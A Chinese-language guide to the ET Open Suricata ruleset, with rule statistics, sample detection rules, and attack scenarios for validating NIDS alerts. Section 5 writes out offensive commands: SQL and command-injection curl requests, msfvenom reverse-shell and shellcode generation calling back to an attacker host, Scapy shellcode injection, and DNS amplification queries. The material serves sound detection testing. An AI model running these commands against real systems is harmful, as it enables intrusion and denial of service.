

# Suricata 规则分析与攻击测试方法

## 1. 概述

本文档对 ET Open (Emerging Threats Open) 规则集进行分析和分类整理，并提供针对各类规则的攻击测试工具和方法，用于验证 NIDS 探针的检测能力。

### 1.1 规则集信息

- **来源**: https://rules.emergingthreats.net/open/suricata-7.0.3/emerging-all.rules
- **许可证**: BSD License (SID 2000000-2799999) 和 GPLv2 (SID 1-3464, 100000000-100000908)
- **规则总数**: 25,314 条
- **活跃规则**: 9,392 条
- **禁用规则**: 4,364 条（以 `#alert` 开头）

## 2. 规则分类统计

### 2.1 按 classtype 分类

| classtype | 规则数量 | 说明 |
|:----------|:---------|:-----|
| web-application-attack | 4,428 | Web 应用攻击 |
| trojan-activity | 2,071 | 木马活动 |
| command-and-control | 1,317 | C2 命令控制通信 |
| unknown | 630 | 未知威胁 |
| policy-violation | 571 | 策略违规 |
| targeted-activity | 532 | 定向攻击 |
| bad-unknown | 531 | 可疑未知活动 |
| attempted-admin | 325 | 尝试管理员权限 |
| exploit-kit | 279 | 漏洞利用工具包 |
| misc-activity | 254 | 杂项活动 |
| attempted-user | 250 | 尝试用户权限 |
| social-engineering | 239 | 社会工程攻击 |
| protocol-command-decode | 185 | 协议命令解码 |
| domain-c2 | 173 | C2 域名通信 |
| attempted-recon | 170 | 尝试侦察 |
| shellcode-detect | 134 | Shellcode 检测 |
| pup-activity | 116 | PUP(潜在有害程序)活动 |
| attempted-dos | 113 | 尝试拒绝服务 |
| credential-theft | 82 | 凭证窃取 |
| misc-attack | 67 | 杂项攻击 |

### 2.2 按 msg 前缀分类

| 类别 | 规则数量 | 说明 |
|:-----|:---------|:-----|
| WEB_SPECIFIC_APPS | 4,157 | 特定 Web 应用攻击 (WordPress, Joomla 等) |
| DELETED | 2,970 | 已删除/弃用规则 |
| MALWARE | 2,598 | 恶意软件检测 |
| INFO | 541 | 信息性规则 |
| MOBILE_MALWARE | 497 | 移动端恶意软件 |
| EXPLOIT | 399 | 漏洞利用 |
| PHISHING | 338 | 钓鱼攻击 |
| WEB_SERVER | 320 | Web 服务器攻击 |
| WEB_CLIENT | 222 | Web 客户端攻击 |
| HUNTING | 153 | 威胁狩猎 |
| ADWARE_PUP | 135 | 广告软件/PUP |
| SCAN | 132 | 扫描探测 |
| SHELLCODE | 103 | Shellcode |
| JA3 | 96 | TLS 指纹 |
| EXPLOIT_KIT | 77 | 漏洞利用工具包 |
| DOS | 59 | 拒绝服务攻击 |
| P2P | 57 | P2P 流量 |
| DNS | 16 | DNS 相关 |
| COINMINER | 11 | 挖矿软件 |
| WORM | 9 | 蠕虫 |

## 3. 规则详细分类与示例

### 3.1 恶意软件检测 (MALWARE)

检测木马、后门、键盘记录器、C2 通信等恶意软件活动。

**示例规则**:
```
alert tcp $HOME_NET any -> $EXTERNAL_NET 25 (
    msg:"ET MALWARE SC-KeyLog Keylogger Installed - Sending Initial Email Report";
    flow:established,to_server;
    content:"Installation of SC-KeyLog on host ";
    classtype:trojan-activity;
    sid:2002979;
)
```

**检测特征**:
- 特定恶意软件的网络特征码
- C2 通信协议特征
- 恶意数据外泄行为
- ICMP 隧道通信

### 3.2 漏洞利用 (EXPLOIT)

检测已知漏洞的利用尝试。

**示例规则**:
```
alert http $EXTERNAL_NET any -> $HTTP_SERVERS any (
    msg:"ET EXPLOIT Possible CVE-2015-1427 Elastic Search Sandbox Escape";
    flow:established,to_server;
    content:"POST /"; depth:6;
    content:"script_fields"; distance:0;
    content:"java.lang.Runtime"; distance:0;
    classtype:attempted-admin;
    sid:2020648;
)
```

**检测特征**:
- CVE 漏洞利用载荷
- 溢出攻击特征
- 代码注入模式

### 3.3 网络扫描 (SCAN)

检测端口扫描、服务识别、暴力破解等侦察活动。

**示例规则**:
```
alert tcp $EXTERNAL_NET any -> $HOME_NET any (
    msg:"ET SCAN Amap TCP Service Scan Detected";
    flow:to_server;
    content:"service|3A|thc|3A 2F 2F|";
    classtype:attempted-recon;
    sid:2010371;
)
```

**检测特征**:
- 扫描工具指纹 (Nmap, Amap, Sipvicious 等)
- 暴力破解行为模式
- 异常端口探测

### 3.4 Web 应用攻击 (WEB_SPECIFIC_APPS / WEB_SERVER)

检测针对 Web 应用的各类攻击。

**示例规则**:
```
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS any (
    msg:"ET WEB_SPECIFIC_APPS cmd powershell base64 encoded to Web Server";
    flow:established,to_server;
    content:"Y21kIC9jIHBvd2Vyc2hlbGwuZXhl";
    classtype:attempted-user;
    sid:2025827;
)
```

**检测特征**:
- SQL 注入
- XSS 跨站脚本
- 命令注入
- 文件包含/上传
- 目录遍历

### 3.5 拒绝服务攻击 (DOS)

检测各类 DoS/DDoS 攻击。

**示例规则**:
```
alert udp any any -> $HOME_NET 53 (
    msg:"ET DOS DNS Amplification Attack Inbound";
    content:"|01 00 00 01 00 00 00 00 00 01|";
    depth:10; offset:2;
    threshold: type both, track by_dst, seconds 60, count 5;
    classtype:bad-unknown;
    sid:2016016;
)
```

**检测特征**:
- 放大攻击 (NTP, DNS, SSDP)
- 协议层攻击
- 资源耗尽攻击

### 3.6 钓鱼攻击 (PHISHING)

检测钓鱼网站和凭证窃取。

**示例规则**:
```
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"ET PHISHING Successful Generic Credit Card Information Phish";
    flow:established,to_server;
    http.method; content:"POST";
    http.request_body; content:"cnumber="; content:"cvv=";
    classtype:credential-theft;
    sid:2029685;
)
```

**检测特征**:
- 恶意 SSL 证书
- 凭证提交模式
- 钓鱼页面特征

### 3.7 Shellcode 检测 (SHELLCODE)

检测网络流量中的 Shellcode。

**示例规则**:
```
alert tcp any any -> any any (
    msg:"ET SHELLCODE Rothenburg Shellcode";
    flow:established;
    content:"|D9 74 24 F4 5B 81 73 13|";
    content:"|83 EB FC E2 F4|"; distance:0;
    classtype:shellcode-detect;
    sid:2009247;
)
```

**检测特征**:
- x86/x64 Shellcode 字节码
- 编码器特征
- NOP sled

## 4. 攻击测试工具与方法

### 4.1 综合渗透测试框架

| 工具 | 用途 | 适用规则类别 |
|:-----|:-----|:------------|
| **Metasploit Framework** | 漏洞利用、Shellcode 生成、C2 | EXPLOIT, SHELLCODE, MALWARE |
| **Cobalt Strike** | 红队 C2、后渗透 | MALWARE, C2 |
| **Caldera** | ATT&CK 自动化攻击模拟 | 全部 |
| **Atomic Red Team** | ATT&CK 技术测试 | 全部 |

### 4.2 网络扫描与侦察

| 工具 | 用途 | 适用规则类别 |
|:-----|:-----|:------------|
| **Nmap** | 端口扫描、服务识别 | SCAN |
| **Masscan** | 大规模端口扫描 | SCAN |
| **Amap** | 应用层协议识别 | SCAN |
| **Nikto** | Web 服务器漏洞扫描 | SCAN, WEB_SERVER |
| **Nuclei** | 漏洞模板扫描 | SCAN, EXPLOIT |
| **Sipvicious** | VoIP/SIP 扫描 | SCAN |

### 4.3 Web 应用测试

| 工具 | 用途 | 适用规则类别 |
|:-----|:-----|:------------|
| **SQLMap** | SQL 注入自动化 | WEB_SPECIFIC_APPS |
| **Burp Suite** | Web 应用代理、扫描 | WEB_SPECIFIC_APPS, WEB_SERVER |
| **OWASP ZAP** | Web 应用安全扫描 | WEB_SPECIFIC_APPS |
| **XSStrike** | XSS 检测与利用 | WEB_SPECIFIC_APPS |
| **Commix** | 命令注入自动化 | WEB_SPECIFIC_APPS |
| **wpscan** | WordPress 漏洞扫描 | WEB_SPECIFIC_APPS |

### 4.4 DoS/DDoS 测试

| 工具 | 用途 | 适用规则类别 |
|:-----|:-----|:------------|
| **hping3** | 自定义包生成、DoS 测试 | DOS |
| **Slowloris** | 慢速 HTTP DoS | DOS |
| **LOIC/HOIC** | 压力测试 (仅授权环境) | DOS |
| **T50** | 多协议压力测试 | DOS |

### 4.5 恶意软件模拟

| 工具 | 用途 | 适用规则类别 |
|:-----|:-----|:------------|
| **Covenant** | .NET C2 框架 | MALWARE, C2 |
| **Sliver** | 跨平台 C2 | MALWARE, C2 |
| **PoshC2** | PowerShell C2 | MALWARE, C2 |
| **Mythic** | 跨平台 C2 | MALWARE, C2 |
| **MITRE Caldera** | 自动化红队 | MALWARE |

### 4.6 流量重放与生成

| 工具 | 用途 | 适用规则类别 |
|:-----|:-----|:------------|
| **tcpreplay** | PCAP 重放 | 全部 |
| **Scapy** | 自定义数据包构造 | 全部 |
| **Ostinato** | 图形化流量生成 | 全部 |
| **msfvenom** | Payload 生成 | SHELLCODE, EXPLOIT |

### 4.7 钓鱼测试

| 工具 | 用途 | 适用规则类别 |
|:-----|:-----|:------------|
| **Gophish** | 钓鱼模拟平台 | PHISHING |
| **King Phisher** | 钓鱼活动管理 | PHISHING |
| **Social-Engineer Toolkit (SET)** | 社会工程攻击 | PHISHING |

## 5. 攻击测试场景

### 5.1 场景 1: 端口扫描检测

**目标规则**: ET SCAN 类规则

**测试步骤**:
```bash
# 使用 Nmap 进行服务扫描
nmap -sV -T4 <target_ip>

# 使用 Amap 进行协议识别
amap -b <target_ip> <port>

# SIP 扫描
svmap <target_ip>
```

**预期告警**:
- "ET SCAN Amap TCP Service Scan Detected"
- "ET SCAN Sipvicious Scan"

### 5.2 场景 2: SQL 注入检测

**目标规则**: ET WEB_SPECIFIC_APPS SQL Injection 类规则

**测试步骤**:
```bash
# 使用 SQLMap
sqlmap -u "http://target/page.php?id=1" --dbs

# 手动测试
curl "http://target/page.php?id=1' OR '1'='1"
```

**预期告警**:
- "ET WEB_SPECIFIC_APPS SQL Injection Attempt"

### 5.3 场景 3: 命令注入检测

**目标规则**: ET WEB_SPECIFIC_APPS Command Injection 类规则

**测试步骤**:
```bash
# 使用 Commix
commix --url="http://target/page.php?cmd=ls"

# Base64 编码的 PowerShell
curl -X POST "http://target/page.php" -d "cmd=Y21kIC9jIHBvd2Vyc2hlbGwuZXhl"
```

**预期告警**:
- "ET WEB_SPECIFIC_APPS cmd powershell base64 encoded to Web Server"

### 5.4 场景 4: C2 通信检测

**目标规则**: ET MALWARE C2 类规则

**测试步骤**:
```bash
# 使用 Metasploit 生成反向 shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe > shell.exe

# 启动 handler
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <attacker_ip>; set LPORT 4444; run"
```

**预期告警**:
- "ET MALWARE Meterpreter C2 Activity"

### 5.5 场景 5: Shellcode 检测

**目标规则**: ET SHELLCODE 类规则

**测试步骤**:
```bash
# 使用 msfvenom 生成 shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw > shellcode.bin

# 通过 Scapy 发送
python3 -c "
from scapy.all import *
shellcode = open('shellcode.bin', 'rb').read()
send(IP(dst='<target>')/TCP(dport=80)/Raw(load=shellcode))
"
```

**预期告警**:
- "ET SHELLCODE ... Shellcode"

### 5.6 场景 6: DNS 放大攻击检测

**目标规则**: ET DOS DNS Amplification 类规则

**测试步骤**:
```bash
# 使用 hping3 (仅在授权测试环境)
hping3 --udp -p 53 -d 40 --file dns_query.bin <dns_server>

# 使用 Scapy 构造 DNS ANY 查询
python3 -c "
from scapy.all import *
dns = IP(dst='<dns_server>')/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname='example.com',qtype='ANY'))
send(dns)
"
```

**预期告警**:
- "ET DOS DNS Amplification Attack Inbound"

### 5.7 场景 7: 钓鱼检测

**目标规则**: ET PHISHING 类规则

**测试步骤**:
```bash
# 模拟信用卡钓鱼 POST 请求
curl -X POST "http://target/submit.php" \
    -d "cnumber=4111111111111111&cvv=123&expiry=12/25"
```

**预期告警**:
- "ET PHISHING Successful Generic Credit Card Information Phish"

## 6. PCAP 样本资源

以下资源提供了包含各类攻击流量的 PCAP 文件，可用于规则测试：

| 资源 | URL | 说明 |
|:-----|:----|:-----|
| Malware Traffic Analysis | https://malware-traffic-analysis.net | 恶意软件流量样本 |
| Stratosphere IPS | https://www.stratosphereips.org/datasets-malware | 恶意软件数据集 |
| NETRESEC PCAP Files | https://www.netresec.com/index.ashx?page=PcapFiles | 公开 PCAP 集合 |
| Security Onion Sample | https://github.com/Security-Onion-Solutions/security-onion/wiki/Pcaps | Security Onion PCAP |
| Contagio Malware Dump | http://contagiodump.blogspot.com | 恶意软件样本 |
| CICIDS Dataset | https://www.unb.ca/cic/datasets/ids-2017.html | IDS 评估数据集 |

## 7. 自动化测试框架

### 7.1 使用 Atomic Red Team

```bash
# 安装
git clone https://github.com/redcanaryco/atomic-red-team.git

# 运行特定技术测试
Invoke-AtomicTest T1190  # 漏洞利用
Invoke-AtomicTest T1566  # 钓鱼
```

### 7.2 使用 MITRE Caldera

```bash
# 部署 Caldera
docker run -p 8888:8888 mitre/caldera

# 访问 Web UI 配置自动化攻击计划
```

### 7.3 使用 tcpreplay 重放 PCAP

```bash
# 重放恶意流量 PCAP
tcpreplay --intf1=eth0 malware_traffic.pcap

# 指定速率重放
tcpreplay --pps=100 --intf1=eth0 attack.pcap
```

## 8. 规则测试最佳实践

### 8.1 测试环境要求

1. **隔离环境**: 使用完全隔离的测试网络，避免影响生产系统
2. **授权**: 确保获得所有测试的适当授权
3. **监控**: 同时运行 Suricata 和 Wireshark 进行流量捕获
4. **基准**: 建立正常流量基准，便于识别误报

### 8.2 测试流程



### 8.3 注意事项

- 仅在授权的测试环境中进行攻击测试
- 记录所有测试活动以供审计
- 定期更新规则集以覆盖新威胁
- 根据业务环境调整规则阈值，减少误报
- 考虑性能影响，在高流量环境中禁用非必要规则

## 9. 附录

### 9.1 规则文件位置

```
/home/ubuntu/workspace/ai-idps/rules/
├── emerging-all.rules          # ET Open 完整规则集
└── et-open/                    # 分类规则目录
```

### 9.2 常用 Suricata 命令

```bash
# 测试规则语法
suricata -T -c /etc/suricata/suricata.yaml

# 离线 PCAP 分析
suricata -c /etc/suricata/suricata.yaml -r capture.pcap

# 查看告警
tail -f /var/log/suricata/fast.log

# 查看 EVE JSON 日志
tail -f /var/log/suricata/eve.json | jq '.alert'
```

### 9.3 MITRE ATT&CK 映射

许多 ET 规则包含 MITRE ATT&CK 映射元数据：

| 战术 ID | 战术名称 | 相关规则类别 |
|:--------|:---------|:------------|
| TA0001 | Initial Access | EXPLOIT, PHISHING |
| TA0002 | Execution | SHELLCODE, WEB_SPECIFIC_APPS |
| TA0003 | Persistence | MALWARE |
| TA0006 | Credential Access | PHISHING |
| TA0011 | Command and Control | MALWARE (C2) |
| TA0042 | Resource Development | PHISHING |

### 9.4 参考链接

- [Emerging Threats 官网](https://rules.emergingthreats.net/)
- [Suricata 文档](https://docs.suricata.io/)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
